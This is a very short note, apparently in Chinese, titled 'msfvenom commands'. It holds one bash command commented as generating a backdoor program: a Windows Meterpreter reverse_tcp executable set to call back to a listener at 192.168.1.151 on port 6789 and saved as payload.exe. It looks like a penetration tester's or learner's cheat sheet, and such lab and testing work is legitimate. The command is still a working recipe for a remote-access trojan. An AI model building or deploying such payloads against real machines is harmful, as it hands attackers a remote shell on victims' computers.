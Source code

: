# msfvenom 命令

```bash
# 生成后台程序
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.151 lport=6789 -f exe -o /mnt/d/payload.exe
```

